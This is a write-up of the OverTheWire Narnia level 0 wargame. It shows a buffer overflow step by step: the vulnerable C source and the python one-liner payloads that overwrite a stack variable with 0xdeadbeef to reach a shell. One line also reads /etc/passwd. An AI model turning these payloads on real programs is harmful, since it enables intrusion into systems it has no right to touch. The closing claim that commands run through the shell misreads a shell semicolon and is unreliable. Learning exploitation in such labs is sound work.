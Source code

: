 
#Narnia0

narnia.labs.overthewire.org

**Username:** narnia0
**Password:** narnia0
**Description:**  
> This wargame is for the ones that want to learn basic exploitation. You can see the most common bugs in this game and we've tried to make them easy to exploit. You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.  

##Write-up

> Before we do anything, let's go ahead and run the program and see what it does.
>
>```
># ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: AAAAAAAA  
>buf: AAAAAAAA  
>val: 0x41414141  
>WAY OFF!!!!  
>```
> Ok, it basically just tell's us that we need to correct a value and asks for input.  After accepting the input it looks like it just tells us the value that we submitted and the value of the area we are supposed to overwrite.
>
> Let's go ahead and take a peek at the source:
>
>```C
>/*
>    This program is free software; you can redistribute it and/or modify
>    it under the terms of the GNU General Public License as published by
>    the Free Software Foundation; either version 2 of the License, or
>    (at your option) any later version.
>
>    This program is distributed in the hope that it will be useful,
>    but WITHOUT ANY WARRANTY; without even the implied warranty of
>    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
>    GNU General Public License for more details.
>
>    You should have received a copy of the GNU General Public License
>    along with this program; if not, write to the Free Software
>    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
>*/
>#include <stdio.h>
>#include <stdlib.h>
>
>int main(){
>	long val=0x41414141;
>	char buf[20];
>
>	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
>	printf("Here is your chance: ");
>	scanf("%24s",&buf);
>
>	printf("buf: %s\n",buf);
>	printf("val: 0x%08x\n",val);
>
>	if(val==0xdeadbeef)
>		system("/bin/sh");
>	else {
>		printf("WAY OFF!!!!\n");
>		exit(1);
>	}
>
>	return 0;
>}
>```
>
> Alright, we can see the declaration of the buffer ```char buf[20];``` and where the input is read in ```scanf("%24s",&buf);```.  It also looks like if we get our values correct that we will be rewarded quite generously with a shell.  How nice! Let's play around with this new information a bit.  If the buffer was only supposed to be 20 characters, let's see what happens when our input is 21 characters, but since it looks like the buffer we want to overwrite has ```0x41414141``` already in it we are going to have to use another letter besides ```A``` as our input. We'll settle for ```R```.  Just as a quick side note, rather than inputting the values by hand each time let's utilize python to make life easier and just pipe in the input.
>
>```
># python -c 'print "R"*21' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRR  
>val: 0x41410052  
>WAY OFF!!!!  
>```
>
> Hmm, it looks like we overwrote one character with the null value at the end of the input overwriting a second.  It also looks like it started overwriting from the back, so we'll need to remember to take the endianness into account for our final input.  Let's try overwriting all 4 characters of the buffer.
>
>```
># python -c 'print "R"*24' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRRRRR  
>val: 0x52525252  
>WAY OFF!!!!  
>```
>
> Perfect, we overwrote the whole buffer with our input.  Now, lets start trying to fit ```0xdeadbeef``` in there.  Since the hex values for ```0xdeadbeef``` don't match up to ascii characters we need a way to insert them as input.  We are already using python for the repetitive input, let's just back off our number of ```R``` and tag on hex values to the end of that string and see what it does.
>
>```
># python -c 'print "R"*20+"\xde\xad\xbe\xef"' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRޭ�  
>val: 0xefbeadde  
>WAY OFF!!!!  
>```
> Our buffer shows that we inserted ```RRRRRRRRRRRRRRRRRRRRޭ�``` which we obviously wouldn't have been able to type in.  However, we forget about the little endian part and our values aren't in the correct order.  Let's fix that.
>
>```
># python -c 'print "R"*20+"\xef\xbe\xad\xde"' | ./narnia0  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: RRRRRRRRRRRRRRRRRRRRﾭ  
>val: 0xdeadbeef  
>```
>
> Well, we didn't get the ```WAY OFF!!!``` message, but no shell. I actually spent a good bit of time at this stage, but learned a few key concepts in doing so.  The shell is being launched, but the problem is it's exiting before we have a chance to run anything.  We can prove that by trying to concatenate a second command to run.
> 
>```
># python -c 'print "R"*20+"\xef\xbe\xad\xde"';whoami | ./narnia0  
>RRRRRRRRRRRRRRRRRRRRﾭ  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: root  
>val: 0x41414141  
>WAY OFF!!!!  
>```
>
> We can see that when it shows us what the buf looks like it shows ```root``` which is the result of the whoami command.  We can try a few other things too.
>
>```
># python -c 'print "R"*20+"\xef\xbe\xad\xde"';cat /etc/passwd | ./narnia0  
>RRRRRRRRRRRRRRRRRRRRﾭ  
>Correct val's value from 0x41414141 -> 0xdeadbeef!  
>Here is your chance: buf: root:x:0:0:root:/root:/b  
>val: 0x622f3a74  
>WAY OFF!!!!  
>```
>
> Clearly we are able to run commands.  Up to now, I have been running this locally, so let's see if we can do this on the server and find the flag.
